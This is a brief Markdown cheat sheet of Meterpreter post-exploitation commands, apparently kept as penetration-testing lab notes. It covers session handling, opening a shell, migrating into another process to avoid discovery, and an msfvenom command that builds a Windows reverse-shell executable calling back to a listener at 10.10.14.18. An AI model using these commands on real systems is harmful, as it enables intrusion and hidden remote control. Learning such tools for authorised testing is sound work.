 ```yaml
---
layout: default
title: Meterpreter
parent: CHEATSHEETS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## List sessions
```
sessions
```

## Open a shell
```
meterpreter> shell                  // Open a shell
C:\WINDOWS\> exit                   // Exit shell back to Meterpreter
```

## Background session
So you can run something else, such as local_exploit_suggester:
```
meterpreter> background
```

## Return to existing meterpreter session
```
sessions -i 1
```

## Migrate into another process
Move to a more stable process that has less chance of being discovered or closed. List the processes and find the pid to migrate to:
```
meterpreter> ps                     // List processes (alternative: shell > tasklist /v > exit)
meterpreter> migrate <pid>          // Migrate into target process
```

On Windows, migrating to `explorer.exe` will show up in `ProcessExplorer`. For example, opening a command prompt and pinging another machine will be visible in `ProcessExplorer`.

## Windows Shells
```
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -f exe -a x64  LHOST=10.10.14.18 LPORT=4444 -o metrev.exe
```
